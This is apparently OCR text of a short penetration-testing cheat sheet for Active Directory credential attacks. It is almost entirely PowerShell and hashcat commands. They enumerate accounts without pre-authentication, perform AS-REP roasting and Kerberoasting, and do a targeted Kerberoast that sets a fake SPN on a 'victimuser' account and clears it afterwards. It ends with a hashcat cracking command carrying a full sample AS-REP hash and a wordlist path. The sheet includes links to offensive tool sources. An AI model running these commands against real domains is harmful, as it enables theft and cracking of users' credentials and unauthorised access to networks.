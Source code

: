 


[+] Find users
 Get-ADUser -Filter 'useraccountcontrol -band 4194304' -Properties useraccountcontrol | Format-Table name


[+] ASREPRoast

Get-ASREPHash -UserName vi -Domain lab.com -Verbose


Invoke-ASREPRoast -Domain lab.local -Server 172.16.14.1 | select -expand Hash



[+] Invoke-Kerberoast

Invoke-Kerberoast -Domain lab.com |fl

https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1



[*] option
-OutputFormat Hashcat
-AdminCount

https://github.com/HarmJ0y/ASREPRoast/blob/master/ASREPRoast.ps1


[+] powerview 


Set-DomainObject -Identity victimuser -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}
$User = Get-DomainUser victimuser 
$User | Get-DomainSPNTicket | fl
$User | Select serviceprincipalname
Set-DomainObject -Identity victimuser -Clear serviceprincipalname


https://github.com/PowerShellMafia/PowerSploit/blob/445f7b2510c4553dcd9451bc4daccb20c8e67cbb/Recon/PowerView.ps1


[*]Note
insert 23 after the $krb5asrep$








[+]Cracking

hashcat -m18200 '$krb5asrep$23$spot@offense.local:3171EA207B3A6FDAEE52BA247C20362E$56FE7DC0CABA8CB7D3A02A140C612A917DF3343C01BCDAB0B669EFA15B29B2AEBBFED2B4F3368A897B833A6B95D5C2F1C2477121C8F5E005AA2A588C5AE72AADFCBF1AEDD8B7AC2F2E94E94CB101E27A2E9906E8646919815D90B4186367B6D5072AB9EDD0D7B85519FBE33997B3D3B378340E3F64CAA92595523B0AD8DC8E0ABE69DDA178D8BA487D3632A52BE7FF4E786F4C271172797DCBBDED86020405B014278D5556D8382A655A6DB1787DBE949B412756C43841C601CE5F21A36A0536CFED53C913C3620062FDF5B18259EA35DE2B90C403FBADD185C0F54B8D0249972903CA8FF5951A866FC70379B9DA' -a 3 /usr/share/wordlists/rockyou.txt

